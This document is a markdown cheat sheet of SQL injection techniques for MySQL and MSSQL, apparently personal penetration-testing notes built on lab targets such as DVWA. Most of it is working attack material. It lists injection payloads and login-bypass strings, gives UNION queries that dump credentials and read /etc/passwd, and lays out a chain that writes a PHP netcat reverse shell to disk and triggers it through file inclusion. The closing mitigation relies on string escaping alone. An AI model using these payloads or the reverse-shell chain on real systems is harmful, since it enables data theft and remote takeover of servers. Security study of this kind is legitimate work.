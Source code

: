 # SQL Injection

## Types
- MySQL
  - Error Based
    - Union Query
      - Discovery: ```'``` & ```"``` & ```\``` 
      - Exploitation (SEC542 - 5)
    - Double Query (SEC542 - 5)
  - Blind Based 
    - Boolean (SEC542 - 5)
    - Time Based (SEC542 - 5)


- MSSQL
  - Union Query
    - ```union all select``` 
  - Blined Based
    - ```id=1' and 1=1--+```
    - ```id=1' and 1=1#```
  - Time Based
    - ```id=1' and waitfor delay "00:00:10"```
  - Error Based
    - ```id=1 and 1=@@version--```
    - ```id=1 and 1=db_name()--```

## Payloads
```
a' or '1'='1
a' or '1'='1'%23
a' or 1=1%23
a'%09or%09'1'='1
a'or'1'='1
a'/**/or/**/'1'='1
2 or 1=1
2%0Aor 1=1
` desc %23
IF(0,name,age)
```

## Exploit
- Login
  - username: ```admin'#``` 
  - password: ```1' or 1=1#``` 
- Data Extracting 
  - Seleting database version, Database, user
    - ```?page=user-info.php&username=z' union select 1,database(),user(),version(),5%23``` 
  - Database tables 
    - ```... union select 1,table_name,null,null,5 from information_schema.tables``` 
    - ```... union select 1,table_name,null,null,5 from information_schema.tables where table_schema='owasp10'``` 
  - Table Columns
    - ```... union select 1,column_name,null,null,5 from information_schema.columns where table_name='accounts'``` 
  - Selecting data from table 
    - ```... union select 1,username,password,is_admin,5 from accounts``` 
  - Reading files
    - ```... union select null,load_file('/etc/passwd'),null,null,null``` 
  - Writing files
    - ```UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*``` 
- Shell upload 
  - Payload 
    - ```?page=user-info.php&username=z' union select '<?passthru("nc -e /bin/sh 10.20.14.208 8080");?>',null into outfile '/tmp/reverse.php'``` 
  - Listen on attacker machin:
    - nc -vv -l -p 8080
  - Run backdoor
    - ```10.20.14.211/dvwa/vulnerabilities/fi/?page=../../../../../tmp/reverse.php```
- Tips
  - TRUE statements
    - ```aNd 1=1``` & ```aNd 21=21``` & ```orDeR bY 1``` 
  - FALSE statements
    - ```dNd 0=1``` & ```anD 9=2``` & ```ordEr bY 1000000000000```   
  - Spaces
    - ```+``` & ```/**/``` & ```%20``` 
    - ```orDeR bY 1 can be re-written as``` => ```orDer+bY+1``` or ```orDer/**/bY/**/1``` or ```orDer%20bY%201```
  - Comments to end the quries
    - ```/*``` & ```//``` & ```#``` & ```%23```
    - Sometimes you might need to add ';' before the comment
      - ```anD 1=1//``` => ```anD 1=1;//```
## Tool
[SQLMAP](../Tools/sqlmap.md)

## Mitigation
- Secure Code for login in PHP
```PHP
$query = "SELECT * FROM accounts WHERE username='".
$conn->real_escape_string($username).
"'AND password='".
$conn->real_escape_string($password).
"'"
```
